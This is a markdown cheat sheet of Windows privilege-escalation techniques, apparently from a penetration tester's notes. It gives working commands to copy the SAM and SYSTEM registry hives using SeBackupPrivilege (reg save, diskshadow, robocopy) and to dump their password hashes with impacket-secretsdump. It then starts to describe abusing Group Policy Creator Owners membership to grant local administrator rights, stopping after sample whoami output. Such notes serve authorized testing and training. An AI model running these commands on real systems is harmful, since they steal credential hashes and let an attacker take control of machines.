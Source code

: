 ## Privilege Escalation
### Check User Privileges
```
whoami /priv
```

### Backup SAM and SYSTEM Files (SeBackupPrivilege REQUIRED):
#### Option 1
```
reg save hklm\system C:/temp/system
reg save hklm\sam C:/temp/sam
```
Download the files and extract the hashes.

#### Option 2

Create a file with the content:
```
set context persistent nowriters
add volume c: alias test
create
expose %test% z:
```
Upload this file to the temp directory on the target.
Run the command:
```
diskshadow /s <filename>
```
Now use robocopy to copy the files to the temp directory:
```
robocopy /b Z:\Windows\System32\Config C:\temp SAM
robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM
```
Download the files to your local machine to extract the hashes.

##### Dump User Hashes From SAM and SYSTEM:
```
impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```

### "Group Policy Creator Owners" Group Abuse
The Group Policy Creator Owners group lets its members create new GPOs. However, those members can only edit or delete GPOs that they have created.
This group privilege can be abused by creating a new GPO to add a taregt user to the local administrators group, and then forcing an GPO update.

1 - Find out if the user is in the group
```
whoami /all

[SNIPPED]
GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
```